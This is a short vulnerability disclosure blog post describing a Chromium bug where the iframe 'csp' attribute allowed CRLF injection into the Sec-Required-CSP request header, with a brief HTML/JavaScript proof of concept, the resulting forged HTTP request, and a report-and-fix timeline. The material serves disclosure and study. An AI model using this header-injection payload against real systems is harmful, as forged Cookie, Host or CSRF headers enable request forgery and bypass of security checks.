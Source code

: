 ```yaml
---
title: "Setting arbitrary request headers in Chromium via CRLF injection"
date: "2018-06-20"
description: "Chromium bug in `csp` parameter of iframes allowing to inject arbitrary headers"
---
```


In this short note I'll describe a bug I found in Chrome recently. It allowed to set arbitrary headers in cross-domain requests. [@insertScript](https://insert-script.blogspot.co.at/2018/05/adobe-reader-pdf-client-side-request.html) recently found a very similar bug in Adobe Reader plugin but it turns out you can still expect those bugs in browsers themselves.

Why is it serious? Because you can use it to inject any request headers, including ones on which security decisions are based, like `X-CSRF-Token`, `Host`, `Referer` or `Cookie`.

### Technical details

I recently stumbled upon a new property of `<iframe>` element I've not been aware of before. The property is called `csp`.  As you can guess, it accepts a CSP policy. Let's check it:

[![](https://3.bp.blogspot.com/-0UTA75NdymQ/Wwj6GJ5TiXI/AAAAAAAAANc/D-T773dYDKYbzk_a2ASTeHcOLkE2002LACLcBGAs/s400/csp.png)](https://3.bp.blogspot.com/-0UTA75NdymQ/Wwj6GJ5TiXI/AAAAAAAAANc/D-T773dYDKYbzk_a2ASTeHcOLkE2002LACLcBGAs/s1600/csp.png)

So what does it actually do? When you set src for the iframe, the following request will be generated:

    GET / HTTP/1.1
    Host: www.google.com
    upgrade-insecure-requests: 1
    sec-required-csp: script-src google.com
    user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    accept-encoding: gzip, deflate, br
    accept-language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
    cookie: [...]

There's a new `Sec-Required-CSP` header whose value is equal to the csp attribute set earlier. The name of the header makes it easy to google that we're dealing with [CSP Embedded Enforcement](https://w3c.github.io/webappsec-csp/embedded/). In short, it is a mechanism for web developers that they can ask nicely embedded content for a specific CSP policy. The embedded content may accept it or reject; in the second case the page won't be rendered.

Anyway, going back to the `csp` attribute: since its value is reflected in request header, it basically calls for CRLF injection. Let's try it:

```html
<!DOCTYPE html><meta charset="utf-8" /> .
<script>
  const ifr = document.createElement("iframe");
  ifr.src = "http://bntk.pl/";
  ifr.csp =
    "script-src\r\nX-CSRF-Token: 1234\r\nUser-Agent: Firefox\r\nCookie: abc\r\nHost: absolutely-random-host.google";

  document.body.appendChild(ifr);
</script>
```

And it generated a request:

    GET / HTTP/1.1
    Host: absolutely-random-host.google
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Sec-Required-CSP: script-src
    X-CSRF-Token: 1234
    User-Agent: Firefox
    Cookie: abc
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7

This was pretty bad!

### Timeline

- May 23 - [bug reported](https://bugs.chromium.org/p/chromium/issues/detail?id=845961)
- May 25 - bug fixed
- June 6 - fixed in stable Chrome
- June 20 - disclosure
